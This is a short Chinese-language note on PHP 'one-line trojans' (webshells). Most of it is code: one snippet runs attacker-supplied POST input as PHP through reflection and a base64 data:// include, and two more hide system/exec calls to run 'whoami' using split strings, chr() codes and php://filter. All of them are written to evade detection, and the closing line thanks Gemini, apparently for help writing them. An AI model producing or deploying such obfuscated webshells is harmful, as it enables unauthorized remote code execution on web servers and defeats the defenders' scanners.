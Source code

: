 一句话木马

```
<?php
// PHP 代码反射
// 动态获取 ReflectionFunction 类
$reflection_class_name = 'Reflection' . 'Function';
$reflection_class = new ReflectionClass($reflection_class_name);

// 创建一个匿名函数
$callable_func = function($code) {
    // 这里使用一个不常见的函数来间接执行
    ob_start();
    include 'data://text/plain;base64,' . base64_encode($code);
    ob_end_clean();
};

// 构造一个 ReflectionFunction 对象
$reflection_func = $reflection_class->newInstance($callable_func);

// 通过反射调用函数，并传入要执行的代码
$reflection_func->invoke($_POST['pass']);
?>
```

![image-20250905183934240](images/image-20250905183934240.png)

此基础上思考有没有其他方式，达到安全

![image-20250905184236094](images/image-20250905184236094.png)

```
<?php
// 使用 php://filter 和 convert.base64-decode 过滤器
// 这里的 'e'.'xec' 是一个简单的混淆
$file = 'php://filter/convert.base64-decode/resource=data://text/plain;base64,'.base64_encode('<?php (' . 'e'.'xec')('whoami');?>');

// include 文件，执行解码后的代码
include($file);
?>
```

![image-20250905184528245](images/image-20250905184528245.png)

```
<?php
// 将函数名 'system' 拆分
$func_name = implode('', [chr(115), chr(121), chr(115), chr(116), chr(101), chr(109)]);

// 将命令拆分，例如 'whoami'
$command = implode('', [chr(119), chr(104), chr(111), chr(97), chr(109), chr(105)]);

// 通过变量函数动态调用
$func_name($command);
?>
```

![image-20250905184651634](images/image-20250905184651634.png)

#### 感谢Gemini